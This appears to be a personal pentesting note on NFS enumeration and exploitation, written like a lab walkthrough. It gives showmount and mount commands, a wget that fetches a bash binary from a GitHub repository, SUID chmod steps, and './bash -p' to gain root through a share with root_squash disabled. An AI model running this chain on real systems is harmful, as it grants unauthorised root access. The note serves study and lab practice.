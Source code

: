 
It is important to have this package installed on any machine that uses NFS, either as client or server. It includes programs such as: **lockd**, **statd**, **showmount**, **nfsstat,** **gssd**, **idmapd** and **mount.nfs**. Primarily, we are concerned with "showmount" and "mount.nfs" as these are going to be most useful to us when it comes to extracting information from the NFS share.

# Useful Commands:

To display information about mounted file systems exported by Server for NFS on a specified computer - NFS enumeration - :

```bash
showmount <Target ip address> -e
or
/usr/sbin/showmount <Target ip address> -e
```

Then, we can use the "mount" command to connect the NFS share to the mount point on our machine like so:

```bash
sudo mount -t nfs IP:share /tmp/mount/ -nolock
``` 

|**Tag**|**Function**|
|:-------:|:------:|
|sudo|Run as root| 
|mount|Execute the mount command|
|-t nfs|Type of device to mount, then specifying that it's NFS|
|IP:share|The IP Address of the NFS server, and the share you want to mount|
|-nolock|Specifies not to use NLM locking|

**Note**: First we must make a tmp directory that will be removed on restart using ```mkdir /tmp/mount``` then we use the "mount" command we just explained to mount the share on our local device.

# NFS Exploiting:

First we use nmap [[Nmap NSE & Commands]] to enumerate and check for open ports and running services on the remote machine.

Next, we use the the following command to display information about mounted file systems exported by Server for NFS on a specified computer - NFS enumeration - :

```bash
showmount <Target ip address> -e
or 
/usr/sbin/showmount <Target ip address> -e
```

Then, we make a tmp folder to mount the share to it using `mkdir /tmp/mount`, and we use the "mount" command to connect the NFS share to the mount point on our machine like so:

```bash
sudo mount -t nfs IP:share /tmp/mount/ -nolock
``` 

After that, we use the following command to download an executable bash:

```bash
sudo wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

**Note:** we use must sudo to get the permissions of root and to download it as root owner, then we set the SUID and executable bits using the following commands:

```bash
sudo chmod +s <file>
sudo chmod +x <file>
```

Finally, we connect to the server using ssh `_ssh -i <key-file> <username>@<ip>` then we copy the file to the share and execute it from the remote user account and execute the bash we downloaded with SUID flag set using this command:

**Note:** don't forget to change the id_rsa file (ssh private key) permissions to 600.

```bash
./bash -p
```

**Note:** The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.

## Pathway Summary:

    NFS Access ->

        Gain Low Privilege Shell ->

            Upload Bash Executable to the NFS share ->

                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->

                    Login through SSH ->

                        Execute SUID Bit Bash Executable ->

                            ROOT ACCESS
# Extra:

## What is root_squash?

By default, on NFS shares- Root Squashing is enabled, and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. Not what we want. However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system.


